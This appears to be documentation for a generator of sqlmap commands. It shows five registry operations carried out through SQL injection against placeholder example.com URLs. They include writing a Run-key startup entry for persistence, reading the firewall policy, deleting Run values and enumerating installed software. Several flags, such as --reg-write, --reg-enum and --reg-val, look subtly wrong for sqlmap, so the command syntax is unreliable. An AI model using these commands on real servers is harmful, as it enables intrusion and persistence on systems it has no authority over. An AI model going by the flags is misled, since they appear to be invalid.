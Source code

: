 ### Add Startup Program
```
Registry Key: HKCU\Software\Microsoft\Windows\CurrentVersion\Run
Registry Value: MyApp
Registry Data: C:\Program Files\MyApp\app.exe
Registry Type: REG_SZ
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/startup.php?id=1" --reg-write --reg-key="HKCU\Software\Microsoft\Windows\CurrentVersion\Run" --reg-val="MyApp" --reg-data="C:\Program Files\MyApp\app.exe" --reg-type=REG_SZ
```

### Read Firewall Settings
```
Registry Key: HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\DomainProfile
Registry Value: EnableFirewall
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/firewall.php?id=1" --reg-read --reg-key="HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\DomainProfile" --reg-val="EnableFirewall"
```

### Create Registry Key
```
Registry Key: HKCU\Software\MyCompany\MyApp
Add Key: ✓ Enabled
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/create.php?id=1" --reg-add --reg-key="HKCU\Software\MyCompany\MyApp"
```

### Delete Registry Value
```
Registry Key: HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
Registry Value: OldProgram
Delete: ✓ Enabled
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/cleanup.php?id=1" --reg-del --reg-key="HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-val="OldProgram"
```

### Enumerate User Software
```
Registry Key: HKCU\Software\Microsoft\Windows\CurrentVersion\Uninstall
Enumerate: ✓ Enabled
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/software.php?id=1" --reg-enum --reg-key="HKCU\Software\Microsoft\Windows\CurrentVersion\Uninstall"
```
